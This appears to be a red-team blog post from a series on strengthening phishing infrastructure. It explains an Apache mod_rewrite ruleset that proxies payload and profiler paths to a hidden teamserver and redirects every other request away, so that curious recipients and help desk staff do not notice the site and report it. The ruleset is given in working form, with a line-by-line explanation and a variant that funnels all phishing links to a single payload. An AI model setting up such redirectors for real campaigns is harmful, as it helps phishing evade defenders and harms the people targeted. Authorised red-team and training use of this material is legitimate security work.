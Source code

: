 ```yaml
---
layout: post
title: Invalid URI Redirection with Apache mod_rewrite
summary: How to redirect users visiting non-existent file paths in your phishing infrastructure to a different site.
---
```


There have been times when a curious phish recipient or a zealous help desk staff has loaded the phishing link in their browser and decided to take a peek at a higher directory or the root domain. Of course, most times there isn't much else site to see. In those cases, the chances of being reported to IR went up significantly, sometimes leading to a phishing campaign being blocked. This is where invalid URI redirection comes in handy.

We can whitelist resources the Apache server will proxy for the targets and redirect any other requests to the target's real domain or another page of our choosing.

In the demo below, the user navigates to *spoofdomain.com/really/long/url.html* and is served a page; however, when the user navigates to *spoofdomain.com/really/* the browser is redirected to *google.com*.

![Invalid URI Redirection Demo](/assets/apache/invalid-uri-demo.gif)

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/(profiler|payload)/?$</span> <span style="color: mediumpurple">[NC,OR]</span><br>
RewriteCond <span style="color: dodgerblue">%{HTTP_REFERER}</span> <span style="color: mediumseagreen">^http://SPOOFED-DOMAIN\.com</span> <span style="color: mediumpurple">[NC]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://TEAMSERVER-IP<span style="color: dodgerblue">%{REQUEST_URI}</span></span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span>
</div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is either '/profiler' or '/payload' (with an optional trailing slash), </span> <span style="color: mediumpurple"> ignoring case; OR </span><br>
<span style="color: dodgerblue">If the request's referer </span> <span style="color: mediumseagreen">starts with 'http://SPOOFED-DOMAIN.com', </span> <span style="color: mediumpurple">ignoring case</span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to serve the </span><span style="color: dodgerblue">original request path </span><span style="color: orange">from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span>
</div>

There are two handy mod_rewrite regex strings being used in this ruleset. The first is the `/?$` string on line two. In the RewriteCond context, the question mark indicates that the previous character, the trailing slash in the example, is optional. Without this regex, RewriteCond would only match the path exactly as written in the ruleset. The dollar sign signifies the end of the URI, meaning the request */payload1* would not match.

The second useful regex is the question mark in the last line. In the RewriteRule context, the question mark tells Apache to drop the query string from the redirected request. 

Since the Proxy `[P]` flag is set on the first RewriteRule, the address bar will still show the original domain name and just append the requested URI to the end of the address. Conversely, if the request doesn't match either condition, the request will be redirected and the address bar will update and show companydomain.com.


A similar use for this redirection would be to redirect all request URIs to one payload. For instance, if you were phishing users in different departments and each email scenario's link was unique you could redirect all users to a single payload without needing to stand up separate copies. To achieve this, simply remove the `$` from the first RewriteCond line. Now the rule will match */profiler* and */profiler/humanresources/legitimatepage.html*.

Redirecting requests with invalid URIs can help a phishing website pass the sniff test for prying recipients or IT. By redirecting non-existent resources users won't reach any index listings or 404 errors on pages that should logically exist. 

# Strengthen Your Phishing with Apache mod_rewrite Posts

* [Strengthen Your Phishing with Apache mod_rewrite and Mobile User Redirection]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/)
* Invalid URI Redirection
* [Operating System Based Redirection with Apache mod_rewrite]({{site.baseurl}}/2016-04-05-operating-system-based-redirection-with-apache-mod_rewrite/)


{:#resources}

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)